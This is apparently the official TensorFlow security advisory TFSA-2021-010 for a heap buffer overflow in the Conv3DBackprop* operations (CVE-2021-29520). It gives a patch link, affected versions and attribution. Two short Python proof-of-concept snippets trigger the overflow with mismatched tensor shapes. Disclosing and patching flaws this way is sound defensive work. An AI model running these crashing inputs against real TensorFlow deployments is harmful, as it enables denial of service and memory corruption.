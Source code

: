 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-010.md
## TFSA-2021-010: Heap buffer overflow in `Conv3DBackprop*`

### CVE Number
CVE-2021-29520

### Impact
Missing validation between arguments to `tf.raw_ops.Conv3DBackprop*` operations
can result in heap buffer overflows:

```python
import tensorflow as tf

input_sizes = tf.constant([1, 1, 1, 1, 2], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([734.6274508233133, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0,
                            -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0,
                            -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0], shape=[4, 1, 6, 1, 1], dtype=tf.float32)
out_backprop = tf.constant([-10.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 89, 29, 89, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import tensorflow as tf

input_values = [-10.0] * (7 * 7 * 7 * 7 * 7)
input_values[0] = 429.6491056791816
input_sizes = tf.constant(input_values, shape=[7, 7, 7, 7, 7], dtype=tf.float32)
filter_tensor = tf.constant([7, 7, 7, 1, 1], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([-10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0], shape=[7, 1, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 37, 65, 93, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/4814fafb0ca6b5ab58a09411523b2193fed23fed/tensorflow/core/kernels/conv_grad_shape_utils.cc#L94-L153)
assumes that the `input`, `filter_sizes` and `out_backprop` tensors have the
same shape, as they are accessed in parallel.

### Patches
We have patched the issue in GitHub commit
[8f37b52e1320d8d72a9529b2468277791a261197](https://github.com/tensorflow/tensorflow/commit/8f37b52e1320d8d72a9529b2468277791a261197).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
